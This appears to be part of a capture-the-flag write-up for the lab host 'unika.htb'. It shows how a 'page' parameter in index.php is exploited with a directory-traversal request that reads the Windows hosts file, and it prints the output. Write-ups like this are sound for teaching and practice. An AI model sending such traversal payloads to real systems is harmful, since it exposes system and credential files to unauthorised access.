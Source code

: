 ![unika](/img/tier1/unika.png)

After clicking around, something stood out after changing the language to French - the url changed to `http://unika.htb/index.php?page=french.html`. `page` is calling a file on the server, but can't we just change this file to be something else? Say, `/etc/hosts`:

`http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;:arrow_down::arrow_down::arrow_down:
```
# Copyright (c) 1993-2009 Microsoft Corp. # # This is a sample HOSTS file used by 
Microsoft TCP/IP for Windows. # # This file contains the mappings of IP addresses to 
host names. Each # entry should be kept on an individual line. The IP address should 
# be placed in the first column followed by the corresponding host name. # The IP 
address and the host name should be separated by at least one # space. # # 
Additionally, comments (such as these) may be inserted on individual # lines or 
following the machine name denoted by a '#' symbol. # # For example: # # 102.54.94.97 
rhino.acme.com # source server # 38.25.63.10 x.acme.com # x client host # localhost 
name resolution is handled within DNS itself. # 127.0.0.1 localhost # ::1 localhost 
```
